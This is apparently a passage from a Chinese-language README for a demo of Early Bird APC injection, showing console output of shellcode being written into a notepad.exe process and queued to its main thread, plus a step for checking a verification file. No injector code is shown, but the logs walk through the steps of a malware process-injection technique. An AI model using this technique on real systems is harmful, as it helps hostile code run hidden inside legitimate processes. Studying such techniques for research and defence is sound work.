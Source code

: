 **测试输出：**
```
======================================
  Early Bird APC Injection 技术
  (参考原始实现：Ruy-Lopez)
======================================

[i] 读取 shellcode 文件: loop_payload.bin
[i] Shellcode 大小: 13 字节
[+] DONE

[i] 创建 "notepad.exe" 进程（调试模式）...
	[i] 运行: "C:\WINDOWS\System32\notepad.exe" ... 确认我们得到了需要的内容...
[i] 目标进程已创建，PID: 97216
[+] DONE

[i] 注入 shellcode 到 notepad.exe...

	[i] 已分配内存地址: 0x00000186F5000000
	按 <Enter> 写入 Payload...	[i] 成功写入 13 字节
[i] 注入地址: 0x00000186F5000000
[+] DONE

[i] 将 shellcode 加入主线程 APC 队列...
[i] APC 已排队到线程 105532
[+] DONE

[*] 按 <Enter> 继续并启动调试进程...[i] 继续调试进程！
[+] 进程已启动！

======================================
✓ Early Bird APC 注入完成
  进程 PID: 97216
  线程 TID: 105532
======================================
```

### 4. 验证注入成功

#### 方法 1：检查验证文件（最推荐）

注入程序会在成功后自动创建验证文件：

```bash
# 检查验证文件
cat C:\Users\Public\early_bird_apc_verified.txt
```

**验证结果：**
```
Early Bird APC Injection Verified!
Target Process: notepad.exe
Process PID: 105904
Thread TID: 25488
Injection Address: 0x000001B6B3190000
Shellcode Size: 13 bytes
Status: Process still running - shellcode executed!
```
